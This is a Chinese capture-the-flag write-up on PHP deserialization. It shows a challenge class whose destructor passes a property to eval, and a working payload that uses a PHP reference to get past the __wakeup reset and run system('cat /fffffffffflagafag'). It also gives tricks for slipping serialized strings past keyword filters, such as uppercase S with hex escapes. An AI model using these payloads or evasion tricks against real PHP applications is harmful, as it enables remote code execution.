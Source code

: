 ```php
    public function __construct(){
        $this->a=1;
        $this->b=2;
        $this->c=3;
    }
    public function __wakeup(){
        $this->a='';
    }
    public function __destruct(){
        $this->b=$this->c;
        eval($this->a);
    }
}
$a=$_GET['a'];
if(!preg_match('/test":3/i',$a)){
    die("你输入的不正确！！！搞什么！！");
}
$bbb=unserialize($_GET['a']);
NSSCTF{This_iS_SO_SO_SO_EASY} 
```

分析

        魔术方法___wakeup()会使变量a为空，且由于正则限制无法通过改变成员数量绕过__wakeup()，这时可以使用引用的方法，使变量a与变量b永远相等，魔术方法__destruct()把变量c值赋给变量b时，相当于给变量a赋值，这就可以完成命令执行，payload如下：

```php
<?php
class test
{
    public $a;
    public $b;
    public $c='system("cat /fffffffffflagafag");';
 
}
$h = new test();
$h->b = &$h->a;   //注意：取会改变的属性的地址，如取a的地址赋值给b，当给a赋值时a会等于b的值
echo '?a='.serialize($h);
 
//输出
//?a=O:4:"test":3:{s:1:"a";N;s:1:"b";R:2;s:1:"c";s:33:"system("cat /fffffffffflagafag");";}
```

### <font style="color:rgb(79, 79, 79);">对类属性不敏感</font>
<font style="color:rgb(77, 77, 77);">protected和private属性的属性名与public属性的属性名不同，由于对属性不敏感，即使不加%00* %00和%00类名%00也可以被正确解析；</font>

### <font style="color:#000000;">大写S当十六进制绕过</font>
<font style="color:rgb(77, 77, 77);">表示字符串类型的s大写为S时，其对应的值会被当作十六进制解析；</font>

```php
例如   s:13:"SplFileObject"  中的Object被过滤
 
可改为  S:13:"SplFileOb\6aect"
 
小写s变大写S，长度13不变，\6a是字符j的十六进制编码
```
